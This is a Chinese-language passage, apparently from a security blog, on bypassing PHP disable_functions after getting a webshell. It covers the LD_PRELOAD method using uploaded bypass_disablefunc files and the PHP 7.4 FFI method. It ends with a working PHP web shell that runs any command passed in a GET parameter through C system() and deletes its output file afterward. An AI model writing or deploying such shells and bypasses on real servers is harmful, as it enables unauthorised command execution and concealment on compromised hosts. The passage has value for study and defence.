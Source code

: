 ### 进阶版

在整个流程中,唯一担心的是sendmail没有安装怎么办,它可不是默认安装的,而拿到的webshell权限一般也不高,无法自行安装,也不能改php.ini。

而有前辈早已指出:无需sendmail：巧用LD_PRELOAD突破disable_functions细节已经说的非常明白,这里只复现,在此不再画蛇添足。

去github下载三个重要文件:
bypass_disablefunc.php,bypass_disablefunc_x64.so或bypass_disablefunc_x86.so,bypass_disablefunc.c
将 bypass_disablefunc.php 和
bypass_disablefunc_x64.so传到目标有权限的目录中。这里很有可能无法直接上传到web目录,解决办法就是上传到有权限的目录下,并用include去包含。

![](https://gitee.com/fuli009/images/raw/master/public/20210820102318.png)

  

这里我已经卸载了sendmail文件

![]()

  

注意区分post和get

![](https://gitee.com/fuli009/images/raw/master/public/20210820102319.png)

## 利用PHP7.4 FFI绕过

FFI（Foreign Function
Interface），即外部函数接口，允许从用户区调用C代码。简单地说，就是一项让你在PHP里能够调用C代码的技术。当PHP所有的命令执行函数被禁用后，通过PHP
7.4的新特性FFI可以实现用PHP代码调用C代码的方式，先声明C中的命令执行函数，然后再通过FFI变量调用该C函数即可Bypass
disable_functions。具体请参考Foreign Function Interface

当前php版本为7.4.3

![](https://gitee.com/fuli009/images/raw/master/public/20210820102320.png)

  

先看FFI是否开启,并且ffi.enable需要设置为true

![](https://gitee.com/fuli009/images/raw/master/public/20210820102321.png)

  

使用FFI::cdef创建一个新的FFI对象

![](https://gitee.com/fuli009/images/raw/master/public/20210820102322.png)

  

通过c语言的system去执行,绕过disable functions。将返回结果写入/tmp/SD，并在每次读出结果后用unlink()函数删除它。

    
    
    <?php  
    $cmd=$_GET['cmd'];  
    $ffi = FFI::cdef("int system(const char *command);");  
    $ffi->system("$cmd > /tmp/SD");       //由GET传参的任意代码执行  
    echo file_get_contents("/tmp/SD");  
    @unlink("/tmp/SD");  
    ?>  
    